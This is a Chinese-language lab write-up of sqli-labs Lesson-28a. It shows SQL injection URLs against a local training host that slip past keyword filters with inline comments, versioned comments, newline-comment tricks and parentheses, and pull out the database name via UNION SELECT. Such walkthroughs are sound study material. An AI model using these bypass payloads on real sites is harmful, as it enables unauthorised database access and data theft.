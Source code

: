```yaml
---
title: sqli-labs lession-28a GET基于盲注-你的UNION和SELECT归我所有-字符型单引号和括号
date: 2018-10-07 22:36:30
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-28a GET基于盲注-你的UNION和SELECT归我所有-字符型单引号和括号

---

## 登录界面

![001](/img/sql/Lesson-28a/001.png)

## 分析

这Lesson-28a比Lesson28还简单,注释了那么多...作者搞返了吧。

![002](/img/sql/Lesson-28a/002.png)

那这里主要分析一下少了这些过滤又有多什么玩法,Lesson-28用过的就不提了,而且这课就不跑SQLMAP了。

1. `/**/`内联注释绕过

   `http://192.168.75.132/sql/Less-28a/?id=1')/**/union/**/select 1,2,3%23`

   ![003](/img/sql/Lesson-28a/003.png)

2. 关键字处用`/!*关键字*/`绕过

   例如： `/*!50000select*/`

   `http://192.168.75.132/sql/Less-28a/?id=2')/*!union*/select 1,2,3%23`

   ![004](/img/sql/Lesson-28a/004.png)

3. 注释加换行符（%23%0A或--%0A）

   `http://192.168.75.132/sql/Less-28a/?id=2') union%23%0Aselect 1,2,3%23`

   ![005](/img/sql/Lesson-28a/005.png)

4.   用括号绕过



   `http://192.168.75.132/sql/Less-28a/?id=-1%27)%20union(select 1,(database()),3)%23`

   ![006](/img/sql/Lesson-28a/006.png)


